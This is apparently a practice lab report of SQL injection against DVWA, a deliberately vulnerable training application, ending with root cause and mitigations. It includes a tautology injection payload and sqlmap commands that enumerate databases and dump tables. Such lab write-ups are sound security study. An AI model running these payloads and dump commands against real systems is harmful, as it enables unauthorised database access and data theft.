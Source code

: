 # SQL Injection — DVWA

> Note: This report documents a practice assessment against DVWA (Damn Vulnerable Web Application) for learning purposes.

---

## TL;DR

* Target: DVWA (local/lab).
* Issue: SQL Injection present on the "SQL Injection" page.
* Result: Database tables enumerated and data extracted using automated tooling (sqlmap).

---

## Environment / scope

* Attacker: Kali Linux (local).
* Target: DVWA (lab instance).
* Tools: `sqlmap`, Burp Suite, browser.

---

## 1) Objective

Test DVWA for SQL Injection vulnerabilities and demonstrate data extraction using automated tools.

---

## 2) Steps performed

1. Open the DVWA web application and navigate to the **SQL Injection** page.
2. Manually test input fields with a simple payload to check for vulnerability, e.g.:

```sql
' OR '1'='1
```

This payload confirmed the input was not properly sanitized and allowed logical bypass.

3. Use `sqlmap` to automate analysis and extract database information. Example command:

```bash
sqlmap -u "http://<DVWA_HOST>/vulnerabilities/sqli/?id=1&Submit=Submit" --batch --dbs
```

4. After enumerating databases, dump relevant tables:

```bash
sqlmap -u "http://<DVWA_HOST>/vulnerabilities/sqli/?id=1&Submit=Submit" --batch -D <database> --tables
sqlmap -u "http://<DVWA_HOST>/vulnerabilities/sqli/?id=1&Submit=Submit" --batch -D <database> -T <table> --dump
```

---

## 3) Results

* `sqlmap` identified injectable parameters and enumerated available databases.
* Database tables were successfully dumped, and sample data was extracted to demonstrate the vulnerability impact.

---

## 4) Conclusion & mitigation

**Root cause:** Lack of parameterized queries and insufficient input validation.
**Mitigations:**

* Use prepared statements / parameterized queries on the server side.
* Enforce strong input validation and output encoding.
* Apply least privilege to database accounts and avoid using highly-privileged accounts for application access.

---

*End of report.*
